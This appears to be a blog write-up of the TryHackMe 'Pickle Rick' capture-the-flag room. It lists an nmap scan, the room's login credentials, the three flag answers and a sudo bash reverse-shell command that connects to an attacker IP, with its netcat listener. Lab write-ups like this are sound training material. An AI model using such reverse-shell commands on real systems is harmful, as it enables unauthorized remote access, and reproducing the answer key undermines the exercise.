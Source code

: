 ```yaml
---
title: 'Tryhackme: Pickle Rick'
date:  2025-06-10 23:00:00 +0530 
categories: [Tryhackme]
tags: [tryhackme, pickle-rick, walkthrough, ctf, hacking, nmap, gobuster, linux, reverse-shell, privilege-escalation, enumeration, exploitation, flags, webshell, writeup, ingredients, rick-and-morty] 
render_with_liquid: false
media_subpath: /images/Pickle_Rick/
---
```

# Pickle Rick Walkthrough
  ![Pickle Rick](rickandmorty.jpeg)


## Nmap Scan 

- **Command:**  
  ```bash
  sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.44.71
  ```
- **Screenshot:**  
  ![Nmap Scan Screenshot](nmap_scan_screenshot.png)

---

## Credentials

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`
- **robots.txt Entry:** `Wubbalubbadubdub`

---

## First Ingredient

- **Command Used:**  
  ```bash
  less Sup3rS3cretPickl3Ingred.txt
  ```
- **Flag:**  
  ```
  mr. meeseek hair
  ```
- **Screenshot:**  
  ![Screenshot](first_ingredient.png)

---

## Second Ingredient

- **Command Used:**  
  ```bash
  less /home/rick/second\ ingredients
  ```
- **Flag:**  
  ```
  1 jerry tear
  ```
- **Screenshot:**  
  ![Screenshot](second_ingredient.png)

---

## Third Ingredient

- **Reverse Shell Command:**  
  ```bash
  sudo bash -c 'bash -i >& /dev/tcp/10.8.76.195/1111 0>&1'
  ```
- **Listener Command:**  
  ```bash
  nc -lvnp 1111
  ```
- **Flag:**  
  ```
  fleeb juice
  ```
- **Screenshot:**  
  ![Screenshot](third_ingredient.png)

  ## Tools Used to Complete the Room

  1. **Nmap**  
    For network scanning and service enumeration.

  2. **Gobuster**  
    To perform directory and file brute-forcing.

  3. **Linux Commands**  
    Common commands like `less`, `ls -al`, `cd`, etc., for file and directory navigation.

  4. **Reverse Shell Generator**  
    A browser extension used to craft reverse shell payloads.

  5. **Nikto**  
    A web server scanner used to identify vulnerabilities and misconfigurations.



## Happy Hacking

<div align="center">
  <img src="https://user-images.githubusercontent.com/74038190/225813708-98b745f2-7d22-48cf-9150-083f1b00d6c9.gif" alt="liveDemo">
</div>